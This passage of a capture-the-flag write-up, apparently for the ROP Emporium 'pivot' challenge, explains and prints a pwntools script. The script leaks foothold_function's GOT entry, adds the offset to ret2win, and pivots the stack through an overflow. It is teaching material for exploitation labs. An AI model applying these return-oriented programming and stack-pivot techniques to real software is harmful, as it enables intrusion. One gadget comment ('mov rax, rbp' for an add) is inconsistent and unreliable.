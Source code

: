 ### Calling ret2win

All that's left is to add the offset of `ret2win` from `foothold_function`. In the 2 extra lines of code, we save the offset to `rbp` and add it to `rax`, before we call the function pointed to by `rax`, which should hopefully be `ret2win`.

```python
from pwn import *
...
POPRAX = p64(0x4009bb) # pop rax ; ret
MOVRAXRAX = p64(0x4009c0) # mov rax, [rax] ; ret
XCHGRSPRAX = p64(0x4009bd) # xchg rsp, rax ; ret
POPRBP = p64(0x4007c8) # pop rbp ; ret
CALLRAX = p64(0x4006b0) # call rax
ADDRAXRBP = p64(0x4009c4) # mov rax, rbp ; ret
POPR15 = p64(0x400a32) # pop r15 ; ret
...
# this forces foothold_function's GOT entry to be populated before the function is run
attack = p64(exe.plt["foothold_function"])

# after foothold_function returns to us
# the got entry of foothold_function stores the location of the actual foothold_function
attack += POPRAX + p64(exe.got["foothold_function"])
# load the location of foothold_function from foothold_function@got
attack += MOVRAXRAX # mov rax, [rax] ; ret
attack += POPRBP + p64(libpivot.symbols["ret2win"] - libpivot.symbols["foothold_function"]) # offset
attack += ADDRAXRBP # add offset
attack += CALLRAX

io.sendline(attack)
...
# juicy stack pivot
smash = b"A"*0x28
smash += POPRAX + p64(pivot_point) + XCHGRSPRAX # exactly 24 bytes
io.sendline(smash)
...
```
